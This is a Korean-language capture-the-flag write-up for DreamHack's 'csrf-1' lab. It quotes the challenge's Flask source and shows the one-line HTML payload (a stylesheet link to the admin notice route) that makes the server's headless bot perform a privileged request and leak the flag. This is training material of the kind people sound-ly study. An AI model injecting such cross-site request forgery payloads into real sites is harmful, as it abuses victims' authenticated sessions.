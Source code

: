 ```yaml
---
layout: post
title: "(DreamHack) csrf-1"
date: 2021-03-30 05:24:00 -0400
categories: Security CTF
---
```


CSRF(Cross Script Request Forgery)는 클라이언트의 권한을 이용해서 의도하지 않은 요청을 하는 취약점이다.


![image](https://user-images.githubusercontent.com/24788751/112967909-b7c94c00-9186-11eb-9328-f4d1ad066342.png)

flag라는 페이지에 위와 같이 입력을 할 수 있는 폼이 있었다. FLAG를 얻기 위해서는 '/admin/notice_flag'에서 host가 127.0.0.1, userid가 admin이어야 함을 알 수 있다.\
그렇게 되면 memo_text가 전역변수로 사용되어 있기 때문에 해당 변수에 FLAG 값을 저장한 뒤 memo 페이지를 호출하면 memo_text 값이 메모 페이지에 출력된다.


```python
@app.route('/flag', methods=['GET', 'POST'])
def flag():
    if request.method == 'GET':
        return render_template('flag.html')
    elif request.method == 'POST':
        csrf = request.form.get('csrf', '')
        if not read_url(csrf):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'

def read_url(url, cookie={'name': 'name', 'value': 'value'}):
    cookie.update({'domain':'127.0.0.1'})
    try:
        options = webdriver.ChromeOptions()
        for _ in ['headless', 'window-size=1920x1080', 'disable-gpu', 'no-sandbox', 'disable-dev-shm-usage']:
            options.add_argument(_)
        driver = webdriver.Chrome('/chromedriver', options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get('http://127.0.0.1:8000/')
        driver.add_cookie(cookie)
        driver.get(f'http://127.0.0.1:8000/csrf?csrf={urllib.parse.quote(url)}')
    except:
        driver.quit()
        return False
    driver.quit()
    return True
```

```python
@app.route('/admin/notice_flag')
def admin_notice_flag():
    global memo_text
    if request.remote_addr != '127.0.0.1':
        return 'Access Denied'
    if request.args.get('userid', '') != 'admin':
        return 'Your not admin'
    memo_text += f'[Notice] flag is {FLAG}\n'
    return 'Ok'

memo_text = ''
@app.route('/memo')
def memo():
    global memo_text
    text = request.args.get('memo', None)
    if text:
        memo_text += text.replace('<', '&lt;') + '\n'
    return render_template('memo.html', memo=memo_text)
```

주어진 텍스트 박스에 아래 스크립트를 입력하였다.
```javascript
<link rel="stylesheet" href="/admin/notice_flag?userid=admin">
```

memo 페이지를 조회해보니 다음과 같으 플래그 값을 얻을 수 있었다.
![image](https://user-images.githubusercontent.com/24788751/112967836-a5e7a900-9186-11eb-9630-f79e843cfe8d.png)